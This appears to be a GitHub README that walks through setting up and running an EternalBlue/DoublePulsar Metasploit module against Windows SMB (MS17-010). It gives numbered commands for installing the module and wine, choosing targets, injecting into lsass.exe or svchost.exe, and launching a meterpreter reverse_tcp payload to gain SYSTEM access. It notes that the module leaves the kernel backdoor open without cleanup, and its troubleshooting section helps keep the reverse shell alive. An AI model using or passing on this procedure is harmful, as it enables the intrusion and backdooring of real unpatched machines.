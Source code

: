 # EternalBlue
ElevenPaths EternalBlue Metasploit module - works better than Rapid 7

EternalBlue module setup (credit to ElevenPaths for their fantastic module)

One thing I could never find was a full setup guide.  I had to piece this together from other sources and how I went about the setup
*One thing to note - this module leaves the backdoor open in the SMB kernel and does not perform cleanup*

# Installation Setup

1.) git clone https://github.com/w0rtw0rt/EternalBlue to any directory
2.) Place eternalblue-doublepulsar.rb file into the /usr/share/metasploit-framework/modules/exploits/windows/smb folder
3.) open terminal
4.) dpkg --add-architecture i386 && apt-get update && apt-get install wine32
5.) add directory in your home directory for .wine (mkdir .wine)
6.) cd .wine 
7.) mkdir drive_c
8.) open metasploit (msfconsole)
9.) use exploit/windows/smb/eternalblue_doublepulsar (should tab autocomplete if you placed in proper directory)
10.) set proper payload for arch (windows/x64/meterpreter/reverse_tcp vs windows/meterpreter/reverse_tcp)
11.) show options
12.) set DOUBLEPULSARPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
13.) set ETERNALBLUEPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
14.) set RHOST *target IP*
15.) set TARGETARCHITECTURE *x86 or x64*
16.) set TARGET *target OS - Windows 2008/7 down to 2003/XP*
17.) set PROCESSINJECT *running process - use lsass.exe (x64) or svchost.exe (x86) or explorer.exe if user is logged in*

At this point, when you run this module for the very first time, wine will initialize and the exploit will fail stating that certain dependencies could not be run.  After the initialization, run the module again and all dependencies will be set up.  The module should complete and if your target is vulnerable, it will open the back door and inject the auto-generated payload to the target.  This should bring back a meterpreter shell with system level access (NTAuthority/System).

# Troubleshooting
    Q. Why did my meterpreter shell die?
    A. Chances are you injected to a process that was unstable.  For example, lsass.exe is going to crash on x86.  A notification will usually appear on the user's desktop notifying them that Windows will restart in 1 minutes due to a fatal error.
    
    Q. The module fails when I try to run it.  It gives me output saying it could not find xxxx directory
    A. Make sure you have pointed your paths to wherever you have your /deps folder residing. It will also need sudo priviliges.
    
    Q. The exploit completed but no session was created!
    A. Multiple things could come into play here:
       a.) Some security feature may be preventing outbound access from the device (reverse tcp connection)
       b.) Your target arch doesn't match your payload
       
    Q. The exploit continues to ask me "are you sure the target is vulnerable?"
    A. Chances are the target isn't vulnerable or has been patched for the ms17-010 exploit. Ensure you've enumerated properly.
